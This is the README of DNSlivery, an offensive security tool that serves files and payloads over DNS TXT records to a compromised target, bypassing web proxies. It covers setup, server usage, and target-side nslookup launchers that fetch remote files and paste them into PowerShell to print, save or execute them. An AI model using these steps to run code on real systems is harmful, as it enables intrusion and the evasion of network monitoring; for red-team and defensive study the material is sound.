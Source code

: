![python-3.7](https://img.shields.io/badge/python-3.7-blue.svg)
[![Known Vulnerabilities](https://snyk.io/test/github/no0be/DNSlivery/badge.svg?targetFile=requirements.txt)](https://snyk.io/test/github/no0be/DNSlivery?targetFile=requirements.txt)

# DNSlivery
Easy files and payloads delivery over DNS.

- [DNSlivery](#dnslivery)
- [Acknowledgments](#acknowledgments)
- [Description](#description)
  - [TL;DR](#tldr)
  - [What problem are you trying to solve?](#what-problem-are-you-trying-to-solve)
  - [How does it work?](#how-does-it-work)
  - [Requirements](#requirements)
- [Setup](#setup)
  - [DNS Zone](#dns-zone)
  - [DNSlivery](#dnslivery-1)
- [Usage](#usage)
  - [Server](#server)
  - [Target](#target)

# Acknowledgments
This project has been originally inspired by [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) and [Joff Thyer](https://twitter.com/joff_thyer)'s technical segment on the Paul's Security Weekly podcast #590 ([youtu.be/CP6cIwFJswQ](https://youtu.be/CP6cIwFJswQ)).

# Description
## TL;DR
DNSlivery allows to deliver files to a target using DNS as the transport protocol.

**Features**:
- allows to print, execute or save files to the target
- does not require any client on the target
- does not require a full-fledged DNS server

## What problem are you trying to solve?
Easily deliver files and/or payloads to a compromised target where classic web delivery is not possible and **without the need for a dedicated client software**. This applies to restricted environments where outgoing web traffic is forbidden or simply inspected by a curious web proxy.

![web-delivery-blocked.png](img/web-delivery-blocked.png)

Even though more complete DNS tunneling tools already exist (s.a. [dnscat2](https://github.com/iagox86/dnscat2) and [iodine](https://code.kryo.se/iodine/)), they all require to run a dedicated client on the target. The problem is that there is probably no other way then DNS to deliver the client in such restricted environments. In other words, building a DNS communication channel with these tools require to already have a DNS communication channel.

In comparison, DNSlivery only provides one-way communication from your server to the target but does not require any dedicated client to do so. Thus, if you need to build a reliable two-way communication channel over DNS, use DNSlivery to deliver the client of a more advanced DNS tunneling tool to your target.

## How does it work?
Just like most DNS tunneling tools, DNSlivery uses `TXT` records to store the content of files in their base64 representation. However, it does not require to setup a full-fledged DNS server to work. Instead, it uses the [scapy](https://scapy.net/) library to listen for incoming DNS packets and craft the desired response. 

![network-process.png](img/network-process.png)

As most files do not fit in a single `TXT` record, DNSlivery will create multiple ordered records containing base64 chunks of the file. As an example, the above diagram illustrates the delivery of the 42<sup>nd</sup> chunk of the file named `file`.

In order to retrieve all base64 chunks and put them back together without the need for a dedicated client on the target, DNSlivery will generate for every file:

- a simple cleartext launcher
- a reliable base64 encoded stager

![two-stages-delivery.png](img/two-stages-delivery.png)

This two-stages delivery process is required to add features to the stager (s.a. handling lost DNS responses) that would otherwise not fit in a single `TXT` record.

### Note on target compatibility
Currently, only PowerShell targets are supported. However, DNSlivery could be improved to support additional targets such as bash or python. Please let me know [@no0be](https://twitter.com/no0be) if this is a feature that you would like to see being implemented.

## Requirements
DNSlivery does not require to build a complex server infrastructure. In fact, there are only two simple requirements: 

- be able to create a `NS` record in your public DNS zone
- have a Linux server capable of receiving `udp/53` traffic from the Internet

# Setup
## DNS Zone
The first step is to delegate a sub-domain to the server that will run DNSlivery by creating a new `NS` record in your domain. As an example, I created the following record to delegate the sub-domain `dnsd.no0.be` to the server at `vps.no0.be`.

```
dnsd    IN  NS vps.no0.be.
```

If your zone is managed by a third-party provider, refer to their documentation to create the `NS` record.

## DNSlivery
The only requirements to run DNSlivery are `python3` and its `scapy` library.
```bash
git clone https://github.com/no0be/DNSlivery.git && cd DNSlivery
pip install -r requirements.txt
```

# Usage
## Server
DNSlivery will serve all files of a given directory (`pwd` by default) and needs to be **run with root privileges** to listen for incoming `udp/53` packets.

```
usage: dnslivery.py [-h] [-p PATH] [-s SIZE] [-v] interface domain nameserver

DNSlivery - Easy files and payloads delivery over DNS

positional arguments:
  interface             interface to listen to DNS traffic
  domain                FQDN name of the DNS zone
  nameserver            FQDN name of the server running DNSlivery

optional arguments:
  -h, --help            show this help message and exit
  -p PATH, --path PATH  path of directory to serve over DNS (default: pwd)
  -s SIZE, --size SIZE  size in bytes of base64 chunks (default: 255)
  -v, --verbose         increase verbosity
```

**Example**: 
```
$ sudo python3 dnslivery.py eth0 dnsd.no0.be vps.no0.be -p /tmp/dns-delivery

DNSlivery - Easy files and payloads delivery over DNS

[*] File "file" ready for delivery at file.dnsd.no0.be (7 chunks)
[*] Listening for DNS queries...
```

### Note on filename normalization
As the charset allowed for domain names is much more restrictive than for UNIX filenames (per [RFC1035](https://tools.ietf.org/html/rfc1035#section-2.3.1)), DNSlivery will perform normalization when required.

**Example**:
```
[*] File "My Awesome Powershell Script ;).ps1" ready for delivery at my-awesome-powershell-script----ps1.dnsd.no0.be (1891 chunks)
```

**Be aware that the current normalization code is not perfect as it does not take overlapping filenames or size limit into account.**

## Target
On the target, start by **retrieving the launcher** of the desired file by requesting its dedicated `TXT` record. The following three launchers are supported:

| Action  | Launcher                    | Description                                           |
| ------- | --------------------------- | ----------------------------------------------------- |
| Print   | `[filename].print.[domain]` | (**Default**) Print the delivered file to the console |
| Execute | `[filename].exec.[domain]`  | Execute the delivered file (useful for scripts)       |
| Save    | `[filename].save.[domain]`  | Save the delivered file to disk (useful for binaries) |

```cmd
nslookup -type=txt [filename].[stager].[domain]
```

Then, simply **copy and paste the launcher quoted in the DNS response to a PowerShell console** to retrieve the file on the target.

**Example**:

![demo-target.git](img/demo-target.gif)